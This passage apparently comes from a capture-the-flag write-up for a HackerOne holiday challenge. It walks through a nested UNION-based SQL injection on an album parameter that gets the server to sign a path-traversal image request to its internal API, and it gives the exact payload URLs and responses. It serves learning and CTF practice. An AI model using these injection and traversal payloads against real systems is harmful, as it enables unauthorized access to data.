 ```

And visited -  https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGkvIiwiYXV0aCI6Ijc2YmEwNjFkMzU2YzYyNjRhNjAwNTIxNmUxNzc2YmE2In0=

**Response**

invalid authentication hash

+ At this point, I was like how we can exploit the functionality, in order to do that, we have to generate a valid hash for the output.

+ So, I was being with no luck and then, visited hacker101 discord channel where adam posted a hint for "inception image".

+ After I tried SQL injection on album parameter to check whether it's a SQL injection case or not, however, it was:

**Request**

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%202,NULL,%22aaa%22--%20-

**Response**

+ In the response, it was returning the album column along with images.

{F1139795}

+ It means select 2 means it was selecting album column and then, it struck about adam's inception hint.

+ In the movie inception, we get the dream inside a dream.

+ Thus, if we are selecting the album column and getting the output, thus there might be a chance of double SQL injection where we can select the photo id and if we somehow add the photo id as a random value, then it might generate valid auth hash from the server.

+ After different testing , finally got the double SQL injection.

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%20%2212%27%20UNION%20ALL%20SELECT%201,1,\%22../api/\%22--%20-%22,NULL,%22aaa%27%22--%20-

**Response**

+ In response, we get the image as:

```html
 <div class="col-md-4">
                        <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9">
                    </div>
```
**Request**

